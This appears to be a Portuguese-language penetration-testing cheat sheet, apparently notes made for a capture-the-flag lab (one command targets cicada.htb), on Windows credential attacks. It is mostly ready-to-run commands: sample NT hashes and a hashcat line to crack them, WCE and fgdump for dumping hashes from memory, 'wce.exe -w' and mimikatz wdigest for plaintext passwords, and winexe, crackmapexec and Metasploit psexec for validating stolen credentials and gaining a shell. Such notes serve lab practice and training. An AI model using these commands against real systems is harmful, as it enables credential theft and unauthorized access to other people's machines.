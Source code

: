 ```
# hash formatadas
25c22286c527ef085b2541e97c740587
b1f233b4583731263d8c54659889dc0a
9b6f9e9dd57c57c4f6ff2a5e8c819cdc
5288d36e2a539296875b393aa763bfcc
31d6cfe0d16ae931b73c59d7e0c089c0
9e40973e2cb458449cb1ce3f4a2a2d6b
```

quebra da hash nt usando hashcat
```
hashcat -m 1000 hash_formatada.txt WORDLIST
```


**hashes da RAM:**
```
/usr/share/windows-resources/wce/wce-universal.exe
/usr/share/windows-binaries/fgdump/fgdump.exe
```

extração de senhas em texto plano
```
wce.exe -w
```
O parâmetro `-w` ativa a busca por senhas em texto claro armazenadas no Digest Authentication Package.


mimikatz para pegar credenciais
```
wdigest
```

## obtendo shell/ validando usuário
validando credenciais:
```
winexe -U USER%PASS //HOST cmd.exe
```

```
sudo crackmapexec smb 172.16.1.145               
sudo crackmapexec smb hosts.txt -d cicada.htb -u <USER> -p <PASS>
```

```
exploit/windows/smb/psexec

Em alguns casos vai ter que mudar o target para conseguir shell
    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command

```
